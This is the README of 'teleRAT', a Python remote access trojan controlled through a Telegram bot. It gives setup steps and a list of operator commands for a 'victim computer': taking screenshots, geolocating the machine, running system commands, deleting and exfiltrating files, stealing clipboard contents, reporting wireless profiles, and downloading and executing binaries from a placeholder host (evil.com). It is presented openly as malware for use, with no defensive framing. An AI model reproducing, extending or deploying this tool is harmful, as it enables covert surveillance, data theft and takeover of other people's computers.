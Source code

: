 # teleRAT

Python based RAT that uses Telegram for sending commands and receiving data to and from a victim computer.


# Setup.py

1. Insert your API key into the `api` variable inside the setup.py script & run it. This will setup your Telegram chat with your created bot with the necessary commands to avoid inserting each command along with the help message.
* Read [here](https://www.teleme.io/articles/create_your_own_telegram_bot?hl=en) to create your own bot and obtain your API token.

2. Install necessary requirements: `pip install -r requirements.txt`
3. Send a command to your Telegram bot
4. Run `python3 main.py`


## Available Commands

* **/whoami** - returns username. no additional arguments required.
* **/sleep** - will have to bot sleep for the specified amount of time in seconds.
* **/screenshot** - takes screenshots. requires the number of screenshots to take (EX: /screenshot 5 <- to take 5 screenshots)
* **/location** - returns location info (region, state, zip code, estimated coordinates, timezone, country, ip address)
* **/metadata** - returns metadata info about a specified file. requires filepath as an additional argument (EX: /metadata C:\Users\Username\Files\special.java <- will return metadata info about special.java)
* **/execute** - executes specified system command. requires 2 additional arguments: the system command and additional arguments to pass to that system command (EX: /execute cmd.exe [/c,ver] or /execute binary.exe none} in order to execute binary.exe with no arguments)
* **/power** - allows operator to shutoff, hibernate, or restart computer. requires 1 additional argument: hibernate, pd (to power down), or restart (EX: /power pd <- to power down the victim's computer)
* **/ls** - provides operator with directory listing. If no additional argument is provided, it provides directory listing for directory in which malware is. Additional argument of a directory is optional (EX: /ls %APPDATA% <- provides directory listing for APPDATA directory)
* **/delete** - deletes a user specified file. Additional argument of filepath is required (EX: /delete C:\Users\Username\Files\temp.txt <- deletes a file named temp.txt)
* **/wreport** - provides information regarding the wireless profiles the computer has connected to in the past, the drivers, and a list of wireless interfaces.
* **/remotebinary** - download and execute a remote binary. Requires 2 additional arguments: the URL where the binary is and any additional arguments to pass when executing the binary (EX: /remotebinary https://evil.com/file.exe noargs <- execute file.exe with no arguments or /remotebinary https://evil.com/file.exe [-c,-f] <- to execute file.exe with flags c & f)
* **/processes** - returns a list of running processes and services
* **/gather** - return a specified file. requires 1 additional argument: the filepath (EX: /gather C:\Users\username\important\file.xlsx <- grab and upload file.xlsx to Telegram chat)
* **/report** - provides a hardware report & Windows version to operator
* **/playnoise** - plays a user specified noise. available list of noises include: asterisk sound (asterisk), exclamation sound (exclamation), exit sound (exit), hand sound (hand), question sound (question), and beep (beep) (EX: /playnoise beep or /playnoise question)
* **/gatherclip** - returns data currently copied in the victim's clipboard. requires no additional arguments.
* **/messagebox** - will present the victim with a message box. 2 additional arguments are required: caption and title for the window (EX: /messagebox <text> <title>
